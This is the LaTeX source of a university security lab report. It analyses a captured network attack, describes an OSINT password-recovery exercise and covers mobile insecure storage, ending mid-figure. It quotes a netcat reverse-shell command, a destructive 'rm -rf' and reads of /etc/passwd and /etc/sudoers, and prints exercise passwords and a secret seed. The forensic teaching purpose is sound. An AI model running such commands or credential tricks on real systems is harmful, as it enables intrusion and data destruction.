%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% Institut für Rechnergestuetzte Automation
% Forschungsgruppe Industrial Software
% Arbeitsgruppe ESSE
% https://security.inso.tuwien.ac.at/
% lva.security@inso.tuwien.ac.at
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\newcommand{\lang}{en}
\usepackage{esseProtocol}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% FOR STUDENTS
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Team number or "0" for Lab0
%TODO team number
\newcommand{\team}{16}
% Date
%TODO fill in creation date
\newcommand{\datum}{05.05.2020}
%TODO lab number
% valid values: "Lab0", "Lab1" (be sure to use Uppercase for first character)
\newcommand{\lab}{Lab1}

%TODO name of course
\newcommand{\lvaname}{Security for Systems Engineering}
%TODO number of course
\newcommand{\lvanr}{183.637}
%TODO year and term, for example: "SS 2012", "WS 2012", "SS 2013", etc.
\newcommand{\semester}{SS 2020}

% Student data in Lab0 or 1. student of team in Lab1
\newcommand{\studentAName}{Koppe Fabio}
\renewcommand{\studentAMatrnr}{01528431}

% 2. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentBName}{Christoph Lichtenegger}
\renewcommand{\studentBMatrnr}{01529470}

% 3. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentCName}{Otto Mustermann}
\renewcommand{\studentCMatrnr}{0815421}

% 4. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentDName}{Mühlehner Stefanie}
\renewcommand{\studentDMatrnr}{01634027}

% 5. student of team in Lab1, for Lab0 or if your team has less students, remove these 2 lines
\newcommand{\studentEName}{Ivaylo Ivanov}
\renewcommand{\studentEMatrnr}{11777707}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% DO NOT CHANGE THE FOLLOWING PART
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\colormode}{color}
\newcommand{\dokumenttyp}{Report \lab}

\begin{document}

\maketitle
\setcounter{section}{0}
\setcounter{tocdepth}{2}
\tableofcontents

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% CONTENT OF DOCUMENT STARTS HERE
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{LAN Dump}
\subsection{Analysis of the attack}
The attacker did the following actions:
\begin{itemize}
    \item he scanned the network for hosts (seen in frames \#12 - \#453 (\& \#456)). By doing an ARP SCAN (Arp Broadcast) the attacker easily know all active hosts in the network 
    \item he started a port scan against 10.13.37.137 (seen in frames \#455 - \#4685)
    \item In the end he tried also if ports 21 22 and 23 (FTP, SSH, and telnet) were available. (seen in frames \#4685 - \#4715)
    \item he then opened a web page on the attacked host (seen in frames \#4718 - \#4744). The attacker could find out that the login form sends its data to index.php
    \item the he executed a dictionary attack on ftp for user webadmin. It was a dictionary attack because the tested passwords made sense and weren't randomly generated passwords. (seen in frames \#4763 - \#8438)
    \item he tried SSH Key Scan (seen in frames \#8439 - \#9919)
    \item after guessing some passwords and not being able to login the user user sql injection to login 
    \begin{center}
        
\includegraphics{imgs/sqlinjecton.PNG}
    \end{center}
    \item he then uploaded the 'badPHP.php' script using the 'Upload Report' function (seen in frames \#10067 - \#10078) and called it (\#10079) without success
    \item he managed to open a telnet session between his machine and the attacked server (at the end of the dump), by using the the user webadmin and password password1, who the attacker found after the dictionary attack.
    \item and he tried deleting the web application (\#10198)
    \item he saw that he was in the sudoers file (\#10286) and changed the mode to all files in upload to 777
    \item he executed the 'badPHP.php' script and replaced the content of 'index.php' with its content.
    \begin{verbatim}
        (_)
         _  ___  _   _
        | |/ _ \| | | |
        | | (_) | |_| |
        |_|\___/ \__,_|

           If you behave well, you might get a present soon.
           After all, I know my way around "scripts" ;-)
        --M00NL16H7
    \end{verbatim}
    \item he then tried to cover his tracks (\#10383)
\end{itemize}

So to conclude the used attacks are these: 
\begin{itemize}
    \item Arp SCAN (Arp Broadcast)
    \item Port SCAN
    \item Dictionary Attack
    \item SSH Key Scan
    \item SQL Injection
\end{itemize}

\subsection{File Upload}
By using Sql Injection the attacker was redirected to reports page, where he could upload a file.
The file uploaded was the script 'badPHP.php'.
It took him less than a second to upload the file.

\subsection{Network environment}
In this LAN Dump are these ip addresses to be found: 
\begin{itemize}
    \item 10.13.37.137 as attacker
    \item 10.13.37.42 a webserver in the role of the victim 
    \item 10.13.37.48 as an active host
    \item 10.0.2.15 and 10.0.2.15 (dns)
\end{itemize}

\subsection{Covering Tracks and manipulated Files}
By successfully being able to communicate with telnet in the end the attacker tried to cover the tracks by trying to detach the screen session that came from his ip address. 
\begin{verbatim}
sudo screen -dmS reverse_shell bash -c 'sleep 30; nc -e /bin/sh 10.13.37.137 1239'
\end{verbatim}

In his telnet session he manipulated these files.
\begin{itemize}
    \item Removing the web application
        \begin{verbatim} rm -rf web \end{verbatim} 
    \item Checking who is root
    \begin{verbatim} grep 'x:0:' /etc/passwd \end{verbatim} 
    \begin{verbatim} grep root /etc/group \end{verbatim}
    \begin{verbatim} sudo cat /etc/sudoers \end{verbatim}
    \item He change the access permission of folder upload to all.
    \item He modified index.php with the content of the badPHP.php file.
\end{itemize}

\subsection{Targeted Attacks}
The attacker tried connecting to 10.13.37.137 using FTP and the user 'webadmin' multiple times.
This can be seen in frames \#4795 - \#8419

He managed to find the 'webadmin' password (password1) in frame \#8390 with the acknowledgement coming in frame \#8395.
He uses that password later to perform a telnet connection to the attacked server

The attacker tried bruteforcing SSH (seen in frames \#8442 - \#9919)
with the user 'john' (e.g., in packet \#8575) without success.

The attacker tried logging in through the web interface with the user 'admin'
(e.g. frame \#9950) without success. Eventually though, he managed to login with the
user 'username' and the password 'password' (frame \#10054).

The attacker tried logging in using telnet with the following username-password combinations:
\begin{itemize}
    \item root:tryme - the attempt was unsuccessful (seen in frames \#10128 - \#10137)
    \item webadmin:password1 - the attempt was successful (Password he got from Dictionary attack)
\end{itemize}

\subsection{Name}
The name of the attacker is to be found in frame \#10321.
I found it while going through the telnet session between the two servers.
\section{Pentesting - Redteaming}

\subsection{It's A Leak!}
The first thing I did was to look for useful information on social media. After a bit of searching I found the Twitter account \href{https://twitter.com/notbotstudios}{@NotbotStudios}, which seems to be the official account of the company. On April 8th this account tweeted an \href{https://twitter.com/NotbotStudios/status/1247844703162294272}{image}, which shows the laptop screen of one of the IT employees of the film studio. On the left side of this image, I spotted a Dropbox URL \href{https://twitter.com/NotbotStudios/status/1247844703162294272}, which leads to a password protected ZIP file called "templates.zip". \\

On April 4th there was another interesting tweet by the company account, which mentions the personal twitter account of the newly hired IT-Support employee Lisa Boehm, \href{https://twitter.com/lboehm1985}{@lboehm1985}. I found Lisa's \href{https://twitter.com/lboehm1985/status/1248692516083445761}{latest tweet} very interesting, because it contains a picture of her work TODO list where the last line is blackened out. After downloading the image I was able to make the last line readable again, by editing the brightness and contrast. The text she tried to censor is "Default PW: Ar513ximTtz4!". Of course it's always a bad idea to publicly post an image of confidential work information, but not properly censoring out a password is especially careless. \\

Using the password "Ar513ximTtz4!" I unlocked the templates.zip file and found a python script that seems to be used internally to generate an automated email to send new employees their initial E-Mail and Intranet account passwords. The initial passwords are generated by hashing together multiple strings, including the first and last name of the employee, the current date and a string called "secure\_seed". This seed has already been discovered in a previous Pentest multiple years ago ("secure\_seed=\allowbreak omebsAupGzaYgggl3h44DiO4dARxjZe8") and seems to not have been changed since then, which ironically makes it not very secure. \\

Next I changed the source code of the python script slightly (\hyperref[code:generate_script]{see listing~\ref*{code:generate_script} on page~\pageref*{code:generate_script}}), so it doesn't use the current date, but lets me specify the date as a command line argument instead. Thanks to Lisa's Twitter I knew that she got the job at Notbot Studios on March 24th and from the previously mentioned tweet on April 4th I knew that she was already on board with the Team for a few days at that point. Therefore I knew that her initial Intranet password must have been generated in the few days between those two dates. Trying the script with March 30th (Monday of her first work week) I was able to generate the password "285cb161deeac78c873117b96ac464af" and username "lboehm". With these login details I successfully logged into the Intranet website, which means that Lisa still hasn't changed her password, even though the generated welcome email specifically says to change the initial password immediately.

\lstinputlisting[caption=Edited Python script,label=code:generate_script,style=c,language=Python]{generate_edited.py}
\section{Text-Adventure}
\section{Secure Programming (mobile)}
\subsection{Demo App 1 - Insecure Data Storage}
\subsubsection{App description}
With this app a user has to perform a simple login to access another screen (see figure \ref{fig:app0}). Since the login mechanism is mocked, both username and password are hard-coded (username: \textit{sse} / password: \textit{topsecret}). The app features the functionality to store entered login information, which is the part of this application that can be exploited.

\begin{figure}[htb!]
	\centering
	\begin{subfigure}{.3\textwidth}
  		\centering
  		
\includegraphics[width=\linewidth]{imgs/secure_mobile_programming/app0_login_form_filled.jpg}
  		\caption{Login screen}
	\end{subfigure}
	\begin{subfigure}{.3\textwidth}
  		\centering
  		
\includegraphics[width=\linewidth]{imgs/secure_mobile_programming/app0_logged_in.jpg}
  		\caption{Logged-in screen}
	\end{subfigure}
	\caption{Screens of the first app}
	\label{fig:app0}
\end{figure}


\subsubsection{Vulnerability}
\paragraph{Theoretical Background:}
Insecure data storage is a common problem with mobile apps and takes the second place in the OWASP mobile top ten. It implies that storing sensitive data in an insecure way allows attackers or malware to access it without the users or the apps permission.

The leakage of sensitive app data can lead to privacy violation, identity theft or even fraud.

\paragraph{Location of the Vulnerability:} 
In the original version of the app, the vulnerability is located in the \texttt{ExternalAuthenticationStorageManager} class. This class uses Androids external storage to save authentication data (username and password) in a JSON file. The external storage on Android can be accessed by the user and every other app, which makes it the worst place to store sensitive data.

\paragraph{Possible Solutions:} Android provides several ways to store data. Three options that can not be accessed by a normal Android user or other apps are:
\begin{itemize}
	\item Internal storage
	\item App preferences
	\item Database
\end{itemize}
These should be the first options when it comes to saving sensitive data. The only way to access these storage options is when an app has superuser privileges. Therefore, sensitive data should also be encrypted properly (see section \ref{sec:app1}).


\subsubsection{Exploitation}
\paragraph{How to exploit this App:}
As mentioned before, the unpatched version of this app uses Androids external storage to save the users credentials. If a user has checked the 'Remember me!' checkbox, a JSON file gets created that contains both the username and the password when a successful login was performed. This file can then be accessed and edited by every other app or the user him- or herself. It can be found in \textit{/storage/emulated/0/Android/data/at.ac.tuwien.sse.owaspm2/files/auth-data.json}.

\paragraph{How the patched version is more secure:}
The patched version uses app preferences, shared preferences to be more exact, to save authentication data. Instead of \texttt{External AuthenticationStorageManager} it now uses the \texttt{SharedPrefsAuthenticationStorage Manager} class (both are implementing the same interface, \texttt{IAuthenticationStorage Manager}, which made the patching process much easier).

Shared preferences are key-value pairs within the internal storage, so only the app itself can access them. To make this even more secure, instead of saving both the username and the password, only the username and a session id gets stored. 



\subsection{Demo App 2 - Insufficient Cryptography}\label{sec:app1}
\subsubsection{App description}
With this app a user can enter his or her credit card information and store them on his or her phone. To save and encrypt the information, a password is required. After encryption, the credit card data is stored in the internal storage so that only this app has access to it (like with the first app, as long as we can assume that other apps don't have superuser privileges).

To decrypt and show the credit card information, a user has to provide the password that he or she entered during the creation of the credit card entry. Stored credit card information can also be deleted.

\begin{figure}[htb!]
	\centering
	\begin{subfigure}{.3\textwidth}
  		\centering
